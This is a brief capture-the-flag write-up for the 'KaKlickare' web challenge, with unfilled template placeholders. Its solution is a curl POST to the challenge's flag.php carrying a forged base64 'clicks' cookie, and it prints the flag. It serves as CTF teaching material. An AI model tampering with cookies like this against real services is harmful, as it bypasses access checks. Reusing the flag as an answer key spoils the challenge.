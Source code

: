 # KaKlickare
*<++>*

## Solution
1. <++>
2. `curl 'http://challs.crate.nu:50012/flag.php' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://challs.crate.nu:50012/' -H 'Content-Type: text/plain' -H 'Origin: http://challs.crate.nu:50012' -H 'Sec-GPC: 1' -H 'Connection: keep-alive' -H 'Cookie: clicks=MTAwMDAwMDAwMA==' -H 'Priority: u=0' -H 'Content-Length: 0'`
3. `./solve.sh`


## Flag
**Flag:** `cratectf{JagHoppasInteDuKlickadeManuellt!}`
